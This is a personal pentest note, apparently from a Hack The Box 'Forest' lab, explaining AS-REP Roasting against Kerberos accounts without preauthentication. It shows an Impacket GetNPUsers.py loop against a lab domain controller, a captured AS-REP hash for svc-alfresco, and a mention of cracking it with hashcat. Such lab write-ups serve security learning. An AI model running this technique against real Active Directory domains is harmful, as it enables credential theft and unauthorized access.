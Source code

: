 :PROPERTIES:
:ID:       f6604f23-26b0-4da6-9c3d-f240b929526a
:END:
#+title: AS-REP Roasting
#+hugo_base_dir:/home/kdb/Documents/kdbed/kdbed.github.io.bak
#+filetags: :impacket:pentest:kerberoasting:kerberos:Windows:


* AS-REP Roasting
Two key attacks on [[id:d7c3d319-5fde-4254-95ca-8b3cc2534aee][Kerberos]] security in Active Directory include [[id:78221ca4-7b41-4377-aa13-88d50a4fd30d][kerberoasting]] and AS-REP Roasting. Kerberoasting typically requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos preauthentication” or UF_DONT_REQUIRE_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts.

Use the [[id:e935d19d-d441-4bdf-b0fd-8886eb807c7a][Impacket]] tool ~GetNPUsers.py~ to try to get a hash for each user

#+begin_src shell
λ ~/ctf/htb/forest/ for user in $(cat usernames.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:25311259ddd6d0e65a4ae2cd898c547b$2328b382956004167ef612abbfd0b3350d362f386d70deadf093d73dd33fadea8bf648d3d7c1cab3565b508a9dafb06cb399ac26e04521ffa22edc882213994257e53976a81b78aaf49dfe02da14f6f76fc7def2a7d4e7e8ff696efa29a1ac4a8df2c0f7856df3c7aa7bbff60e93c1e1fbfc538745a0ffefa3f383d68ddfb4984d1194bc56cc9d168b69a512901815da53cba71a2d0a13c6369fd1b74b9ce3367119502354b2cae4ae3096e5ba4a041fa8a0d1d7f4a92c0f47d2c6ee7bcc73b7f2c3b10955799c807bf43d3035488fb385c68568e770d87d771343e16266ea8f

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
#+end_src


The hash is quickly cracked with =hashcat=.
